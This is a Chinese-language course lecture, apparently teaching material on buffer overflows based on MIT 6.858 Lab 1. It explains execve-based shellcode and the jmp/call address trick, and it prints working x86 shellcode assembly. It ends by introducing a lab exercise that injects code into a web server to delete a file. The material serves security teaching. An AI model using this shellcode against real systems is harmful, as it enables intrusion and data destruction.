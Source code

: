 #缓冲区溢出3：代码注入

###哈尔滨工业大学 网络与信息安全 张宇 2016

参考课程: [MIT 6.858 Computer Systems Security](http://ocw.mit.edu/courses/electrical-engineering-and-computer-science/6-858-computer-systems-security-fall-2014/index.htm) by Prof. Nickolai Zeldovich

实验资料: [MIT 6.858 Computer Systems Security](http://ocw.mit.edu/courses/electrical-engineering-and-computer-science/6-858-computer-systems-security-fall-2014/index.htm)中Lab 1。

参考资料：[Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html#article)

###Shell code原理

利用缓冲区溢出漏洞改写函数返回地址来劫持程序控制流，令其指向预执行代码。通常该代码会启动一个shell，称作"shell code"。下面是一个C语言程序启动shell的例子。

``` c
#include <stdio.h>void main() {   char *name[2];   name[0] = "/bin/sh";   name[1] = NULL;
   /* int execve(const char *filename, char *const argv[],
          char *const envp[]);   */   execve(name[0], name, NULL);
   exit(0);}
```

该程序中`execve()`在父进程中fork一个子进程，在子进程中调用`exec()`函数启动新的程序。`exec`系列函数中`execve()`为内核级系统调用。 `execve()`执行第一个参数`filename`字符串所指文件，第二个参数是利用数组指针来传递命令行参数，并且要以空指针`null`结束，最后一个参数则为传递给执行文件的新环境变量数组。Linux的`execve()`通过寄存器传递参数，由0x80软中断触发调用。调用过程如下：

1. 内存中存在`null`结尾字符串`"/bin/sh"`
1. 内存中存在`"/bin/sh"的地址`加一个`null long word`1. 拷贝`execve`调用号(`0xb`)到`eax`寄存器1. 拷贝`"/bin/sh"的地址的地址`到`ebx`寄存器1. 拷贝`"/bin/sh"的地址`到`ecx`寄存器1. 拷贝`null long word的地址`到`edx`寄存器1. 执行`int $0x80`指令

若`execve()`调用失败，程序将继续执行，很可能导致崩溃。为了令程序在调用失败后仍然可以正常退出，在`execve()`之后添加`exit()`系统调用：

1. 拷贝`exit`调用号(`0x1`)到`exa`寄存器
2. 拷贝`0x0`到`exb`寄存器
3. 执行`int $0x80`指令

在shell code中，多处需要用到地址，一个问题是我们不知道代码和字符串会被放置在哪里。解决该问题的一种方法是用`jmp`和`call`指令，通过`ip`指令指针相对寻址来跳到特定位置，而不需要事先知道准确地址。

首先，在通过改写返回地址来跳转到shell code后，利用`jmp`指令跳转到`call`指令。将`call`指令放在`"/bin/sh"`字符串之前，当执行`call`指令时，字符串地址将被入栈，作为`call`被执行时的返回地址。`call`指令只需简单的跳转到`jmp`之后的代码，执行`pop`指令将栈中的`call`的返回地址，即字符串地址，拷贝到一个寄存器使用。下面是程序描述与跳转示意图。

1. (1) 返回地址跳转到shell code
1. (2) `jmp`跳转到`call`
1. `pop`获得`"/bin/sh"地址`
1. 执行`execv()`
1. 执行`exit()`
1. (3) `call`跳转到`pop`
1. 字符串`"/bin/sh"`

```
low address         <———— stack growth ————        high address
                      
          +—————————(3)—————————+
          V                     | 
   [jmp][pop][execv()][exit()][call]["/bin/sh"][sfp][ret][arguments]
   ^  |                          ^                    |
   |  +—————————(2)——————————————+                    |
   +——————————————————————————————————(1)—————————————+  

```

通常shell code将被作为字符串注入缓冲区中。由于空字节(null)会被认为是字符串结尾，因此需要将其中的空字节去掉。一种主要手段是用`xorl %eax,%eax`指令来令`eax`寄存器为`0`，用`eax`作为参数，从而避免在参数中直接使用`0`。

在实验中提供了3个文件：

- `shellcode.S`：Shell code汇编代码
- `shellcode.bin`：`make`编译后二进制代码
- `run-shellcode`：直接运行`shellcode.bin`

查看`shellcode.S`：

``` gas
#include <sys/syscall.h>                /* 系统调用编号表 */

#define STRING  "/bin/sh"
#define STRLEN  7
#define ARGV    (STRLEN+1)
#define ENVP    (ARGV+4)

.globl main                             /* 令符号main对ld和其他程序可见 */
        .type   main, @function         /* 设置符号main的类型为函数 */

 main:
        jmp     calladdr                /* 跳转(2) 到 CALL */

 popladdr:
        popl    %esi                    /* STRING的地址出栈 */
        movl    %esi,(ARGV)(%esi)       /* set up argv pointer to pathname */
        xorl    %eax,%eax               /* 获得32-bit的0 */
        movb    %al,(STRLEN)(%esi)      /* 将0写入STRING结尾字节 */
        movl    %eax,(ENVP)(%esi)       /* 将envp置0 */

        movb    $SYS_execve,%al         /* syscall参数1: syscall编号 */
        movl    %esi,%ebx               /* syscall参数2: string pathname */
        leal    ARGV(%esi),%ecx         /* syscall arg 2: argv */
        leal    ENVP(%esi),%edx         /* syscall arg 3: envp */
        int     $0x80                   /* invoke syscall */

        xorl    %ebx,%ebx               /* syscall arg 2: 0 */
        movl    %ebx,%eax
        inc     %eax                    /* syscall arg 1: SYS_exit (1), uses */
                                        /* mov+inc to avoid null byte */
        int     $0x80                   /* invoke syscall */

 calladdr:
        call    popladdr
        .ascii  STRING                  /* 将字符串(不追加零)存入连续地址 */
```



###代码注入练习

在本练习中，利用缓冲区溢出漏洞将代码注入到web服务器，从而删除一个敏感文件`/home/httpd/grades.txt`。

以下文件用于本练习：




